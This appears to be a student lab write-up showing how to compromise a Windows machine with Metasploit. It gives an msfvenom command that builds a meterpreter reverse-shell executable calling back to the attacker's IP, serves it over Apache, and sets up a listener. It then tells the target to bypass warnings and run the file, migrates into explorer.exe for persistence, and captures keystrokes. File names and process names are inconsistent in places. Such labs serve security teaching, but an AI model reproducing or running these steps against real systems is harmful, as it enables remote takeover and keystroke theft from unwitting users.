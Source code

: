 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110609](https://github.com/user-attachments/assets/9244b6df-682a-4925-8437-990b37e7e202)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.14.241 -f exe > mahisha.exe
## OUTPUT
![Screenshot 2025-04-07 111401](https://github.com/user-attachments/assets/5469dce6-90fb-4c7c-a969-40777915f820)





copy the fun.exe into the apache /var/www/html folder


![Screenshot 2025-04-07 111757](https://github.com/user-attachments/assets/9b463b17-fee2-4c8c-9bea-0deedb00779a)





Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 111807](https://github.com/user-attachments/assets/d1a1d860-58b2-4983-953f-80178b2fe09c)



Check the status of apache2
![Screenshot 2025-04-07 115230](https://github.com/user-attachments/assets/542fc8c2-6166-4994-87f7-9cba22527af6)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-11 135734](https://github.com/user-attachments/assets/3e73156c-1895-400b-8864-289c2eca698b)





On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.14.241/mahisha.exe
The file "mahisha.exe" downloads. 
![image](https://github.com/user-attachments/assets/b8a94154-39f4-492d-9328-a12caeb16461)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115329](https://github.com/user-attachments/assets/2fb57481-4077-43d8-80a8-5162251ad7f2)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
